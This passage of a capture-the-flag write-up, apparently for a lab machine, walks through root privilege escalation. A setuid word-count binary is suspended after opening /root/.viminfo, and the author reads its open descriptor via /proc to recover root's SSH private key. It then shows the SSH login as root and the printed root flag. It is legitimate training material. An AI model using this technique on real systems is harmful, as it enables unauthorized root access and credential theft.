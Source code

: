 This means that if I can get count to open a file I normally can’t access (e.g., /root/.viminfo), I can then read it from /proc using my unprivileged shell.

# Exploitation Steps
1. Run the binary and open the target file:
I chose /root/.viminfo because it’s world-readable but normally inaccessible due to /root directory permissions, once the stat are printed, i background it with CTRL+Z

```bash
dasith@secret:/opt$ ./count
Enter source file/directory name: /root/.viminfo

Total characters = 16370
Total words      = 2228
Total lines      = 562
Save results a file? [y/N]: ^Z
[2]+  Stopped                 ./count
```

2. Find the PID of count
```bash
pidof count
1929 
```
3. Inspect the /proc/1929/fd directory

```bash
```bash
dasith@secret:/proc/1929/fd$ ls -l
total 0
lrwx------ 1 dasith dasith 64 Aug 12 19:24 0 -> /dev/pts/1
lrwx------ 1 dasith dasith 64 Aug 12 19:24 1 -> /dev/pts/1
lrwx------ 1 dasith dasith 64 Aug 12 19:24 2 -> /dev/pts/1
lr-x------ 1 dasith dasith 64 Aug 12 19:24 3 -> /root/.viminfo
```

4. Finally we can read the file 3, and find id_rsa.
<img width="815" height="645" alt="Screenshot 2025-08-12 212630" src="https://github.com/user-attachments/assets/237fd27a-3cf0-4928-a6d1-c04ea0e5c464" />

I copied the key to my local machine, fixed permission and used SSH to connect as root.
```bash
└─$ ssh -i id_rsa root@10.129.156.33
```

```bash
root@secret:~# cat root.txt
1be2b36afb5ab876fc89c6bc88496952
```

Done. 







```
